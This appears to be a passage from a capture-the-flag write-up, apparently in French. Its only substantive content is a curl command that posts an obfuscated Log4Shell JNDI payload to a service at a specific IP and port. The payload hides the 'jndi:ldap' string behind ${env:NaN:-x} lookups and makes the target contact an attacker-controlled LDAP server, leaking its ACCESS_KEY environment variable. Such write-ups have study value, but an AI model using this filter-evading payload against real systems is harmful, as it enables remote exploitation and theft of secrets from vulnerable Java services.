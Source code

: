 ![Troie](images/troie.jpg)

```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d 'nom=Zbeub&prenom=${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//XX.XX.XX.XX:1389/hostname=${env:ACCESS_KEY}}'
```

![Env](images/env.png)
